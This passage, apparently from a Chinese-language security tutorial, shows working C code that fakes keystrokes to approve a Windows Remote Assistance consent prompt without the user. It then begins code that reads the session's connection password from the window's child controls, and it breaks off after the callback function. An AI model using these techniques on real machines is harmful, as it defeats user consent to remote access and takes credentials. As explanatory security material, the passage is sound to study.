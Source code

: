 正常情况下，控制端成功输入密码后，服务端会弹框提示用户是否允许远程协助

这里通过程序实现模拟用户输入，选中`Yes`，对应的键盘操作为左箭头(<-)和回车确认键

代码如下：

```
#include <windows.h>
int main()
{
	char *Title = NULL;
	LANGID lid = GetSystemDefaultLangID();
	printf("[*]LanguageID:0x%04x\n",lid);
	switch (lid)
	{
		case 0X0804:
			printf("[*]Language:Chinese\n",lid);
			Title = "Windows 远程协助";
			break;
		case 0x0409:
			printf("[*]Language:Englisth\n",lid);
			Title = "Windows Remote Assistance";
			break;
	}
	HWND hwnd = FindWindow(NULL, Title);
	SetActiveWindow(hwnd);
	SetForegroundWindow(hwnd);
	SetFocus(hwnd);
	keybd_event(37,0,0,0);
	keybd_event(37,0,KEYEVENTF_KEYUP,0);
	keybd_event(13,0,0,0);
	keybd_event(13,0,KEYEVENTF_KEYUP,0);
}
```

编译生成`msra-allow.exe`


### 3、扩展：获得远程协助窗口的连接密码

通过枚举子窗口获得连接密码

使用API FindWindow获得窗口句柄

使用API EnumChildWindows遍历窗口所有子窗口，获得密码内容

API EnumChildWindows会自动枚举，直至获得最后一个子窗口或者函数返回0

实际测试发现第二个子窗口保存密码，所以在获得密码后函数返回0提前结束枚举

代码如下：

```
#include <windows.h>
int status = 0;
BOOL CALLBACK EnumMainWindow(HWND hwnd, LPARAM lParam)
{
	const int BufferSize = 1024;
	char BufferContent[BufferSize] = "";
	SendMessage(hwnd, WM_GETTEXT, (WPARAM)BufferSize, (LPARAM)BufferContent);
	status++;
	if (status == 2)
	{
		printf("[+]Find Password\n");      
		printf("%s\n", BufferContent);
		return 0;
	}
	return 1;
}
```